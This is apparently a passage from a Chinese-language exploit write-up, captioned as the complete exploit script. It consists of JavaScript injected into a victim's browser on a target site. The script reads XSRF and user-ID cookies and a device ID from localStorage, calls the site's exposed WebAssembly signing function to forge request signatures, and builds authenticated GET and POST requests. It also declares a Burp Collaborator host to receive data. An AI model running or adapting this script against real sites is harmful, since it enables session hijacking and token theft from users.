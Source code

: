 完整利用脚本如下：

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'
        // init webassembly and get sig_gen function
        // 获取签名函数，该函数的实现为webassembly，但是全局模块sig暴露webassembly的接口，可以直接进行调用
        var moduleX;
        Promise.all([sig.default()]).then(function (t) {
            moduleX = t
        })

        // 获取cookie信息
        const getCookieValue = (name) => (
            document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
        )

        const myFetch = async (url, headers) => {
            let data = await fetch(url, {
                method: 'GET',
                headers: headers,
                credentials: 'include'
            })
            let res = await data.json();
            return res
        }
        // 构造GET发送请求
        const setHeaderDs = (payload) => {
            var GL_X_XSRF_TOKEN = getCookieValue('GL-XSRF-TOKEN')
            var GL_Uid = getCookieValue('GOD_UUID')
            var checkres = moduleX['0'].gen_sign(payload)
            var checkjson = JSON.parse(checkres)
            var GL_CheckSum = checkjson['sign']
            var GL_Nonce = checkjson['timestamp']
            var GL_ClientType = 61
            var GL_DeviceId = localStorage.getItem('ns-client-id')
            var headers = {
                'GL-CheckSum': GL_CheckSum,
                'GL-Nonce': GL_Nonce,
                'GL-Uid': GL_Uid,
                'GL-DeviceId': GL_DeviceId,
                'GL-ClientType': GL_ClientType,
                'GL-X-XSRF-TOKEN': GL_X_XSRF_TOKEN,
                'Content-Type': 'application/json;charset=UTF-8'
            }
            return headers
        }

        // 构造POST发送请求
        const myPostFetch = async (url, headers, payload) => {
            let data = await fetch(url, {
                method: 'POST',
                headers: headers,
                credentials: 'include',
                body: JSON.stringify(payload),
            })
            let res = await data.json();
            return res
        }
